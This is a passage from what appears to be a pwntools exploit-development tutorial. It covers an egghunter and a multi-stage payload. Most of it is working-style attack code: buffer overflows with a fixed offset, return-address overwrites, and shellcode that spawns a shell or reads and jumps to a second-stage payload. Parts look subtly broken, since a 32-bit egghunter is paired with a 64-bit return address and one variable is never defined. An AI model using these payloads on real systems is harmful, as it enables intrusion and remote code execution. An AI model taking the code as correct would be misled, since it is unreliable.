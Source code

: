 ```python
        lea ebx, [edx+4]
        push byte +0x21
        pop eax
        int 0x80
        cmp al, 0xf2
        jz next_page
        
        mov eax, {u32(egg)}    # First half of egg
        mov edi, edx
        scasd
        jnz next_addr
        
        mov eax, {u32(egg)}    # Second half of egg  
        scasd
        jnz next_addr
        
        jmp edi                # Jump to shellcode after egg
    ''')
    
    # Full shellcode with egg marker
    full_shellcode = egg + egg + asm(shellcraft.sh())
    
    # Exploit payload
    offset = 72
    payload = egghunter.ljust(offset, b'A')
    payload += p64(buffer_address)  # Return to egghunter
    
    return payload, full_shellcode
```

### Multi-stage Payloads

```python
#!/usr/bin/env python3
from pwn import *

def multi_stage_exploit():
    context.arch = 'amd64'
    
    # Stage 1: Read larger payload
    stage1 = asm(f'''
        # read(stdin, buffer, size)
        xor rax, rax        # sys_read
        xor rdi, rdi        # stdin
        mov rsi, {hex(buffer_addr)}  # buffer address
        mov rdx, 1000       # size
        syscall
        
        # Jump to read payload
        mov rax, {hex(buffer_addr)}
        jmp rax
    ''')
    
    # Stage 2: Full shellcode
    stage2 = asm(shellcraft.sh())
    
    # Initial overflow
    offset = 72
    payload1 = stage1.ljust(offset, b'A')
    payload1 += p64(buffer_addr)
    
    return payload1, stage2
```
